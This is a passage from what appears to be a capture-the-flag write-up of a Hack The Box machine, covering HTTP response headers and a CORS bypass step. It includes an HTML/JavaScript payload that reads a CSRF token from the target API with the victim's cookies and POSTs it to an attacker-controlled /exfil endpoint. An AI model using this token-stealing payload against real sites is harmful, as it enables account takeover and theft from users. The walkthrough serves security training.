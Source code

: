 
The response headers show this time the `Content-Type` is `text/html`, which
Firefox knows how to display:

    
    
    HTTP/1.1 200 OK
    Host: 0xdf-employees.crossfit.htb
    Date: Sun, 11 Jul 2021 11:13:21 GMT
    Connection: close
    X-Powered-By: PHP/7.4.15
    Content-type: text/html; charset=UTF-8
    

Interestingly, the PHP server shows the request to `/test` as a GET, but I
tried for a POST. It turns out that’s just an error in the webserver. Watching
in Wireshark, it’s clearly a POST:

![image-20210711071621488](https://0xdfimages.gitlab.io/img/image-20210711071621488.png)

I’ll re-trigger the exploit and I see the requests come in first for
`password-reset.php`, and then for `/test` just like above. It loaded the PHP
page and the JavaScript made a request!

#### CORS Bypass

To make the request to `crossfit-club.htb/api/signup`, I need an CSRF token.
I’ll update the script to request one, and send it back to make sure it
worked. I’ll remember from [Crossfit](/2021/03/20/htb-crossfit.html#csrf-
account-request) that I need to use `withCredentials` to keep the cookie the
same throughout the entire request, so I’ll add this now.

    
    
    <html>
      <head>
        <title>pwned</title>
      </head>
      <body>
        <script>
          var req_token = new XMLHttpRequest();
          req_token.onreadystatechange = function() {
            if (req_token.readyState == 4) {
              var token = JSON.parse(req_token.response).token
              var req_exfil = new XMLHttpRequest();
              req_exfil.open("POST", "http://0xdf-employees.crossfit.htb:81/exfil", false);
              req_exfil.send(token);
            }
          }
          req_token.open("GET", "http://crossfit-club.htb/api/auth");
          req_token.withCredentials = true;
          req_token.send();
        </script>
      </body>
    </html> 
    